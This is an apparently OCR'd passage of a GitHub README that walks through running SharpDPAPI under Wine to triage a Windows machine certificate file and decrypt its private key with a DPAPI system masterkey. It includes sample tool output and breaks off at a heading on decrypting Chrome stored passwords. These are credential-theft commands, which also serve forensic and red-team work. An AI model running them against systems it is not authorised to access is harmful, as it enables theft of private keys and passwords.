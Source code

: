    * ```
      $ apt install wine
      $ dpkg --add-architecture i386
      $ apt install wine32
      $ wine msiexec /i wine-mono-[version].msi
      ```
7. Run SharpDPAPI.exe with **certificates** action and only the target file as input
   * `wine SharpDPAPI.exe certificates /target:<RSA_MACHINE_KEY> `
   * Example below, notice the `masterkey needed: {<SYSTEM_MASTERKEY_GUID>}` output
   * ```
      $ wine SharpDPAPI.exe certificates /target:a1006ebd40f83685cc94962e0dd973d9_62526833-1703-428f-84dd
      
      0009:err:mscoree:LoadLibraryShim error reading registry key for installroot
      __                 _   _       _ ___
      (_  |_   _. ._ ._  | \ |_) /\  |_) |
      __) | | (_| |  |_) |_/ |  /--\ |  _|_
                     |
      v1.11.2
      
      [*] Action: Certificate Triage
      [*] Target Certificate File: a1006ebd40f83685cc94962e0dd973d9_62526833-1703-428f-84dd
      
         [!] a1006ebd40f83685cc94962e0dd973d9_62526833-1703-428f-84dd masterkey needed: {e68e86c9-c3c3-4958-b923-7b2977}
      
      [*] Hint: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
      
      SharpDPAPI completed in 00:00:00.1879740
      ```
8. Run SharpDPAPI.exe with certificates action and the needed System MK from above
   * `wine SharpDPAPI.exe certificates /target:<RSA_MACHINE_KEY> /showall "{<SYSTEM_MK_GUID>}:<DECRYPTED_SYSTEM_MK_SHA1_HASH>"`

### Chrome stored passwords decryption